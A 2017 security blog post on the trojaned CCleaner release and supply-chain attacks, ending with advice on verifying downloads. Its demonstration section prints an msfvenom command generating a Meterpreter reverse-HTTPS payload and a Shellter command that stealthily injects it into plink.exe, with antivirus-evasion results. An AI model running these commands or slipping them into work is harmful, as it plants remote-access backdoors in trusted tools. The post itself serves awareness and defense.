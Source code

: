 ```yaml
---
layout: email
title: CCleaner trojaned, supply-chain attacks, and an intro to backdooring software
---
```


Big news earlier in the week: popular system cleaning/placebo app CCleaner was backdoored by someone who inserted fairly sophisticated malware without breaking the developer's code-signing certificate. At first glance it looks like they've either compromised the developer's build systems, or it's an inside job.

Cisco Talos made the discovery, and has an excellent writeup on their blog. It's quite long and goes into technical detail, but it's well worth reading in full: 

[**CCleanup: A Vast Number of Machines at Risk**](http://blog.talosintelligence.com/2017/09/avast-distributes-malware.html)

>Supply chain attacks are a very effective way to distribute malicious software into target organizations. This is because with supply chain attacks, the attackers are relying on the trust relationship between a manufacturer or supplier and a customer. This trust relationship is then abused to attack organizations and individuals and may be performed for a number of different reasons. The Nyetya worm that was released into the wild earlier in 2017 showed just how potent these types of attacks can be. Frequently, as with Nyetya, the initial infection vector can remain elusive for quite some time. [...]
>
>Talos recently observed a case where the download servers used by software vendor to distribute a legitimate software package were leveraged to deliver malware to unsuspecting victims. For a period of time, the legitimate signed version of CCleaner 5.33 being distributed by Avast also contained a multi-stage malware payload that rode on top of the installation of CCleaner. CCleaner boasted over 2 billion total downloads by November of 2016 with a growth rate of 5 million additional users per week.

This is a pretty big deal. Avast has egg on their face as a security vendor, and everyone involved will have burned a fair bit of trust with their users (at least the ones who happen to see the news).

The silver lining is that this should serve as yet another wake-up call regarding supply chain security, because CCleaner is probably the highest-profile application to be the victim of a supply-chain attack. [Nyetya/NotPetya](https://www.theregister.co.uk/2017/06/28/petya_notpetya_ransomware/), while it wreaked absolute havok in Ukraine and companies who did business there, wasn't well known by people outside of tech circles - and the application used for the supply-chain attack was only used by people who paid tax in Ukraine.

CCleaner, however, is used worldwide, and often by people who are just technical enough to freak the hell out when they read this sort of story.

### Supply Chain Attacks

It's worth noting just how devastatingly effective this sort of attack can be. Applications like CCleaner are widely used, the installers and update mechanisms of these sorts of applications usually enjoy the full trust of users, and they typically need to be run with elevated privileges.

In many cases this trust is misplaced (poor security practices by developers, updates served over insecure HTTP, etc), but losing this trust would almost be more dangerous than the actual attacks: **the security industry has spent *decades* trying to persuade people to patch their stuff, and a few good attacks like this will completely undermine that message.**

It's not just third-party applications, either. Managed Service Providers (MSPs) are ubiquitous in industry, and often the entire IT department of a given company is outsourced to a provider such as Fujitsu or HP Enterprise. If one of these MSPs is owned, the attacker gets the keys to the kingdom for many other organisations, many of whose employees may not even be aware that they're using a MSP.


### Backdooring Applications - A Demonstration

It's also worth outlining just how easy the technical part of this attack - backdooring the CCleaner installer - was to do. This attack was more sophisticated than what I'm about to demonstrate (they built the malware into the application before compilation), but not by much. The hard part is getting access to the developer's systems, not the infection itself.

Below are a couple of screenshots showing a [VirusTotal](https://www.virustotal.com) scan on a piece of malware I generated and uploaded: a Meterpreter payload. Meterpreter is an open-source Remote Access Trojan (RAT), which is the default payload used by the Metasploit Framework. It's not particularly stealthy, which is kind of the point of this demonstration.

VirusTotal is a website run by Google which scans uploaded files with a number of popular virus checking tools, and provides the results to subscribers.

If none of the above words made sense, don't worry, the details aren't important. What is important is the comparison between the screenshots below:

**Screenshot 1 - raw Meterpreter executable ([VirusTotal link](https://www.virustotal.com/#/file/ca58713ed155898e677de4f3c54f1f0a13c45c0fcc1a757be218a62224ff78a4/detection)):**
![Raw Meterpreter executable](/images/vt-raw-meterpreter.png)

The first screenshot is the basic Meterpreter malware, without any attempt at avoiding detection by antivirus (AV) solutions. It's sitting there naked. This one gets 49/64 detections, with all of the major tools detecting the malware. This is actually worse than I'd expect - only the really really useless AV solutions should miss something this obvious.

​**Screenshot 2 and 3 - plink.exe infected with Meterpreter ([VirusTotal link](https://www.virustotal.com/#/file/a306e457efbffff03c2c9e756acd64f25d207f4bcd3442ffad5ecf0066b53dc4/detection)):**
![plink.exe infected with Meterpreter](/images/vt-plink-1.png)
![plink.exe infected with Meterpreter](/images/vt-plink-2.png)

The second and third screenshots show what happens when I backdoor the popular plink.exe administration tool with the same Meterpreter payload (Plink is the command-line version of Putty, for those familiar with the latter). The result is an executable which works exactly the same way that a normal Putty/Plink user would expect, but in the background it executes the Meterpreter malware and calls back to me.

As you can see from the screenshots, the trojaned plink.exe is significantly more effective at bypassing detection by popular AV solutions, with only 7 of 64 tools detecting it as malicious.

As an aside, Plink/Putty is an excellent target for this sort of supply chain attack because of its ubiquity and demographic - it's used primarily by system administrators, who are likely to be 1) running with administrative privileges and 2) have privileged access to lots of other interesting things (the reason they're using Putty in the first place).

For those who would like to try this at home, I used the free tool [Shellter](https://www.shellterproject.com/) to backdoor the plink.exe executable, with the following command line:

`$ wine /usr/share/shellter/shellter.exe -a --stealth -f plink.exe -p meterp-revhttps.raw`

The meterp-revhttps.raw is a basic Meterpreter payload generated using msfvenom. The .exe in the first screenshot was generated the same way, but with '-f exe' and a less obvious filename (some AV solutions flag on filename, or at least use it as one of their signals for 'badness').

`$ msfvenom -p windows/meterpreter/reverse_https LHOST=10.8.0.80 LPORT=443 -f raw > meterp_revhttps.raw`

The point I'm trying to make here is that this stuff isn't hard - I didn't write Shellter, Meterpreter, or Metasploit, and this demonstration didn't take any crazy technical skill. All I needed was a laptop and an internet connection. This is script-kiddy stuff, and yet every major antivirus solution (with the notable and [topical](http://www.bbc.com/news/world-us-canada-41262049) exception of Kaspersky) misses the backdoored plink.exe.


### Defending against supply chain attacks is *hard*

It's easy to become paranoid when you see something like this, and resolve never to download third-party software again. That's a bit drastic, but there are several simple steps that you can take to reduce your likelihood of becoming the next victim of a supply chain attack:
* Avoid downloading software from small fly-by-night developers, unless you really really need to
* When downloading software, use a trusted source, i.e. the developer's website, not a random link on a forum
* Only download software from websites which use HTTPS, not HTTP (and check the actual download link, not just the page it's served from)
* Ideally, compare the MD5/SHA1/SHA256 hash of the downloaded file with the one provided on the developer's website, as a basic check for malicious modification
* Even more ideally (but too much hassle for most people): compare the hashes provided by the developer to ensure it matches their GPG signature. As an example, Kali provides this and instructions for how to verify the signature (see under "*Download Kali Linux Images Securely*" [here](https://www.kali.org/downloads/)).

Of course, none of the above would have helped in the case of CCleaner - it was compromised by people who knew what they were doing.

At the end of the day, remember your [threat model](https://arstechnica.com/information-technology/2017/07/how-i-learned-to-stop-worrying-mostly-and-love-my-threat-model/): individuals are extremely unlikely to be targeted by a sophisticated threat, unless they happen to have access to something that makes the effort worth it. Just don't expect your antivirus to save you if someone owns the developers of your favourite software.